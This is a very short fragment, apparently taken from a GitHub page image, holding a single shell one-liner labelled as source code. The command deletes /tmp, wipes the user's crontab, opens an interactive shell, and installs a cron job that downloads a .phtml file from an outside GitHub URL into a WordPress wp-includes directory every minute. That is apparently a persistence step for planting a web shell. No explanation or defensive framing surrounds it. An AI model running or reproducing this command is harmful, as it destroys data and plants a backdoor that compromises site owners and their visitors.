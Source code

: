 rm -rf /tmp;crontab -l;crontab -r;/bin/sh -i;echo " * * * * * wget -q https://raw.githubusercontent.com/Anonrocks/crontab/refs/heads/main/jap.phtml -O /home/user/public_html/wp-includes/css" | crontab -

